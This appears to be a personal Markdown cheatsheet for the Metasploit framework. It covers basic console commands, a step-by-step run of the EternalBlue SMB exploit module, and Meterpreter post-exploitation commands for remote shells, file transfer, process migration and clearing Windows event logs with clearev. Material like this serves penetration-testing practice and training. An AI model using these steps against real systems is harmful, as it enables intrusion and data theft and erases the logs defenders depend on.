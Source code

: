 # Metasploit
*Personal cheatsheet*<br/> <br/>
## Basic commands
```help```<br/>
```search```&emsp;Search modules<br/>
```use```&emsp;Select a module<br/>
```info```&emsp;Display info about a specific module<br/>
```options```&emsp;List options you can set<br/>
```advanced```&emsp;Display advanced options for a specific module<br/>
```show```&emsp;Show options in a specific category<br/>
## First steps w/ Metasploit
### ```Eternalblue```
```search eternalblue```<br/>
```use exploit/windows/smb/ms17_010_eternalblue``` to select the module<br/>
```show options```<br/>
```set``` to set a value to a module options<br/>
&nbsp;&nbsp;&nbsp;&nbsp;*ex:* ```set SMBPass username```<br/>
```show payloads``` to list compatible payloads<br/>
```set PAYLOAD <index>``` to select the desired payload, ```index``` *being the id of the playload from* ```show payloads```<br/>
```exploit``` to run the exploit once you've configured all the desired options<br/>
```sessions``` to list all active sessions<br/>
```session -i <index>``` to go into interactive mode with a session, ```index``` *being the id of the session from* ```sessions```<br/>
### ```Meterpreter```
Once you've run an exploit, ideally it'll give you either a regular command shell or a meterpreter shell.<br/>
```meterpreter``` allows you to do various things to **interact w/ the machine**, cf. [Offensive Security](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/) for the complete list of cmds.<br/>
```download <filepath>``` to dl a file from the remote machine. *NB: you'll need to use **double slashes** for Windows environment*<br/>
```upload <local_file_location> <remote_file_location>``` to upload a file to the machine. *Just like download, you'll need to use **double slashes***<br/>
```ps``` to list **running process**.<br/>
```migrate [<new_pid>]``` is used to **"migrate" from the current process to another** process, *it's possible to specify the PID you'll like to migrate to by specifying it ```<new_pid```*<br/>
```ls``` list files in the current directory.<br/>
```execute``` to execute a command on the remote host.<br/>
```shell``` will start an interactive shell on the remote host.<br/>
```search``` to find files on the remote host.<br/>
```cat``` to display the content of a file.<br/>
```background``` will put your meterpreter shell in background, *to return to the meterpreter shell* ```session -i <session_id>```
```clearev``` will clear the **Application, System, and Security logs** on a **Windows system**.
